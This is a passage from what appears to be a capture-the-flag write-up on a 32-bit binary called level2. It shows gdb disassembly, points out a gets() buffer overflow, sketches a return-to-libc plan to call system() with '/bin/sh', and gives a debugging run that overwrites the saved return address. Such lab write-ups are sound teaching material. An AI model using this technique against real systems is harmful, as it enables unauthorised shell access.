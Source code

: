 ```gdb
   0x08048527 <+83>:	lea    eax,[ebp-0x4c]
   0x0804852a <+86>:	mov    DWORD PTR [esp],eax
   0x0804852d <+89>:	call   0x80483f0 <puts@plt>
   0x08048532 <+94>:	lea    eax,[ebp-0x4c]
   0x08048535 <+97>:	mov    DWORD PTR [esp],eax
   0x08048538 <+100>:	call   0x80483e0 <strdup@plt>
   0x0804853d <+105>:	leave  
   0x0804853e <+106>:	ret    
End of assembler dump.
(gdb)

Dump of assembler code for function main:
   0x0804853f <+0>:	push   ebp
   0x08048540 <+1>:	mov    ebp,esp
   0x08048542 <+3>:	and    esp,0xfffffff0
   0x08048545 <+6>:	call   0x80484d4 <p>
   0x0804854a <+11>:	leave  
   0x0804854b <+12>:	ret    
End of assembler dump.
(gdb) 
```

Using ghidra to make a source code representation, the main function only call the p function.

It use the get() function that is vulnerable to buffer overflow, but this time, there is no function that spawns a shell for us.


We will have to find a way to call system ourself, and make the binary execute it.


Return-to-libc exploit :


The strategy in this exploit is, by using the libc, withdrawing the address of the system() function, we will then overwrite the return address with random character, and then write the argument "/bin/sh" using its addresses.


Lets gather all of our address.


The EBP is 4 byte before EIP, so we can just find the offset of the EIP and substrace 4 byte, but there is a way to find the EBP anyway lets use it :

EBP :

```
gdb) run
Starting program: /home/user/level2/level2 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Breakpoint 1, 0x0804853d in p ()
(gdb) info frame
Stack level 0, frame at 0xbffff730:
 eip = 0x804853d in p; saved eip 0x41414141
 called by frame at 0xbffff734
 Arglist at 0xbffff728, args: 
 Locals at 0xbffff728, Previous frame's sp is 0xbffff730
 Saved registers:
  ebp at 0xbffff728, eip at 0xbffff72c

```
